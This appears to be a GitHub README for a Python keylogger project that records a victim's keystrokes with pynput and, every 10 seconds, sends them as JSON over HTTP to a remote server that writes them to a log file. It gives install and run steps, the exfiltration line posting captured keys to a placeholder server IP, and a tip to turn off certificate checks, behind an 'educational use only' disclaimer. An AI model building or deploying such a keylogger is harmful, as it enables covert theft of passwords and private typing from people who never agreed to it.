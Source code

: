 
# 🕵️ Python Keylogger with Remote Logging Server

This project demonstrates a basic keylogger in Python (`keyloggerdk.py`) that captures keystrokes from a user machine and sends them over HTTP to a central logging server (`store_keystrokes_server.py`). The server stores the logs in a timestamped file (`keystrokes.log`).

⚠️ **For educational and authorized testing purposes only. Do NOT run this on any machine without explicit permission.**

---

## 📁 Project Structure

```
.
├── keyloggerdk.py             # Client-side keylogger
├── store_keystrokes_server.py # Server-side script to receive and store keystrokes
├── keystrokes.log             # Output file storing all received keystrokes
├── cert.pem                   # SSL certificate (for HTTPS, optional)
├── key.pem                    # SSL private key (for HTTPS, optional)
```

---

## 🔧 Requirements

- Python 3.x
- `pynput` and `requests` on the client
- No extra packages needed for the server (uses `http.server`)

### Install dependencies (on client):

```bash
pip install pynput requests
```

---

## ▶️ How It Works

### 🔹 Client — `keyloggerdk.py`

- Captures keystrokes using `pynput`.
- Stores them in a string (`text`).
- Every 10 seconds, sends them as JSON to the remote server using:
  ```python
  requests.post(f"http://<server_ip>:8080", data=json, headers={"Content-Type": "application/json"})
  ```

### 🔹 Server — `store_keystrokes_server.py`

- Listens on port `8080`.
- Accepts POST requests with JSON body.
- Extracts the `keyboardData` from the request and appends it to `keystrokes.log`.

---

## ✅ Running the Project

### 1. On the **Server** (receiver):

```bash
python store_keystrokes_server.py
```

Make sure port `8080` is open or forwarded (if behind NAT).

### 2. On the **Client** (sender):

Edit the IP in `keyloggerdk.py`:
```python
ip_address = "YOUR.SERVER.IP.ADDRESS"
```

Then run:
```bash
python keyloggerdk.py
```

Logs will appear in the server’s `keystrokes.log`.

---


### 3: Update `keyloggerdk.py`

Change:
```python
http → https
requests.post(..., verify=False)
```

---

## 🛡️ Security Note

This project is for **learning and demonstration only**. Real-world keyloggers are serious security threats and **illegal** without explicit permission. Use this responsibly in ethical hacking labs or CTFs.

---

## 📄 License

MIT License — Educational use only.
